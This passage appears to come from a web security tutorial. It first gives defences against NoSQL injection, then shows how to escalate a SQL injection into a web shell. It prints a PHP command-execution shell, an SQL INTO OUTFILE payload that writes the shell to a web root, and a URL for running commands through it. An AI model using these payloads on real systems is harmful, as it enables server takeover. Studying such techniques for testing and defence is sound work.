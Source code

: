 
Developers can prevent NoSQL injection attacks by :

- validating user input and avoiding dangerous database functionalities. 

- In MongoDB, you can disable the running of server-side JavaScript by using the `--noscripting` option in the command line 

- `security.javascriptEnabled flag` in the configuration file to false. 

- Additionally, you should follow the principle of least privilege when assigning rights to applications. 

This means that applications should run with only the privileges they require to operate. 

For example, when an application requires only read access to a file, it should not be granted any write or execute permissions. 

This will lower your risk of complete system compromise during an attack.

###### Escalating the Attack

###### Gain a Web Shell

To escalate SQL injections ,
attempt to gain a web shell on the server. 

Let’s say we’re targeting a PHP application. The following piece of PHP code will take the request parameter named cmd and execute it as a

system command:

```php
<? system($_REQUEST['cmd']); ?>
```

You can use the SQL injection vulnerability to upload this PHP code to a location that you can access on the server by using `INTO OUTFILE`. 

For example, you can write the password of a nonexistent user and the PHP code

```php
<? system($_REQUEST['cmd']); ?> 
```

into a file located at /var/ www/html/shell.php on the target server:

```sql
SELECT Password FROM Users WHERE Username='abc'
UNION SELECT "<? system($_REQUEST['cmd']); ?>"
INTO OUTFILE "/var/www/html/shell.php"
```

Since the password of the nonexistent user will be blank, you are essentially uploading the PHP script to the shell.php file. 

Then you can simply access your shell.php file and execute any command you wish: `http://www.example.com/shell.php?cmd=COMMAND`